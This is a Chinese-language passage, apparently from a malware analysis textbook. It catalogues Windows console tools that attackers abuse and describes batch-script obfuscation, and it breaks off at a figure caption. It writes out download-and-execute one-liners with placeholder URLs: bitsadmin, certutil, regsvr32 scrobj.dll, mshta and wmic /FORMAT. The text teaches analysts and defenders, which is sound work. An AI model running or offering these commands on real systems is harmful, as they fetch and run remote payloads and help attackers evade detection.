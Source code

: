 +   `at`：此命令调度程序在某个特定时间执行。*   `attrib`：此命令显示或更改文件系统对象属性；例如，`system`、`read-only`或`hidden`属性。*   `cacls`：此命令显示或更改`find`：此命令搜索特定的文件系统对象；例如，通过文件名、路径或扩展名。*   `format`：此命令格式化磁盘，可能会覆盖先前的内容。*   `ipconfig`：此命令显示并更新本地计算机的网络配置。*   `net`：这是一个多功能工具，支持各种网络操作，包括用户管理（`net user`）和远程资源管理（`net use`/`net share`）、服务管理（`net start`/`net stop`）等。*   `ping`：此工具通过使用 ICMP 数据包检查与远程资源的连接性。它还可以用于建立潜在的网络通道并窃取数据。*   `reg`：此命令执行各种注册表相关操作，如`reg query`、`reg add`、`reg delete`等。*   `robocopy`/`xcopy`：这些工具将文件系统对象复制到另一个位置。*   `rundll32`：此命令加载 DLL；这里支持按名称和顺序导出的两种方式。*   `sc`：此命令与服务控制管理器通信并管理 Windows 服务，包括创建、停止和更改操作。*   `schtasks`：这是`at`工具的更强大版本；它通过调度程序在特定时间启动程序。实际上，这是 Windows 任务调度程序的控制台替代工具，支持本地和远程计算机。*   `shutdown`：此命令重启或关闭本地或远程计算机。*   `taskkill`：此命令通过名称或 PID 终止进程；此外，支持本地和远程计算机。*   `tasklist`：此命令显示当前运行的进程列表；同时支持本地和远程计算机。

从历史上看，没有提供标准工具来发送 HTTP 请求（现在 `curl` 已在现代版本的 Windows 上可用）或压缩文件。从攻击者的角度来看，这意味着为了实现更多或更基本的恶意软件功能，例如下载、解密和执行附加有效载荷，他们必须编写额外的代码。直到后来，像 `bitsadmin` 和 `certutil` 这样的系统工具才被攻击者广泛滥用，用于下载和解码有效载荷。以下是它们被使用的一些示例：

+   `bitsadmin /transfer <any_name> /download /priority normal <url> <dest>`

+   `certutil -urlcache -split -f <url> <dest>`

+   `certutil -decode <src> <dest>`

此外，还有一些较少为人知的方式，Windows 恶意软件可以通过使用标准控制台命令来访问远程有效载荷，具体如下：

+   `regsvr32 /s /n /u /i:<url_to_sct> scrobj.dll`

+   `mshta <url_to_hta>`

+   `wmic os get /FORMAT:<url_to_xsl>`

最后，一些标准工具如 `wmic` 原生支持远程机器，因此如果有可用的凭证，就可以在另一台受害者的机器上执行某些命令，而无需额外的工具。

更多与标准工具相关的非标准安全应用可以在 **LOLBAS** 项目页面找到：[`lolbas-project.github.io/`](https://lolbas-project.github.io/)。

批处理文件中最常见的混淆模式如下：

+   通过从长块中提取子字符串来构建命令。

+   使用过多的变量替换；这里，许多变量要么未定义，要么在使用的地方远离定义的位置。

+   使用随机大小写字母的长变量名。

+   添加多个无意义的符号，如成对的双引号或插入符号转义字符 (`^`)。以下截图展示了一个示例：

![图 10.1 – 使用转义符号进行批处理脚本混淆的示例](img/Figure_10.1_B18500.jpg)

图 10.1 – 使用转义符号进行批处理脚本混淆的示例

+   通常情况下，大小写字母混合使用（Windows 控制台不区分大小写，除非大小写有区别；例如在 base64 编码中）。以下是一个示例：

![图 10.2 – 使用不存在的变量进行批处理脚本混淆的示例](img/Figure_10.2_B18500.jpg)
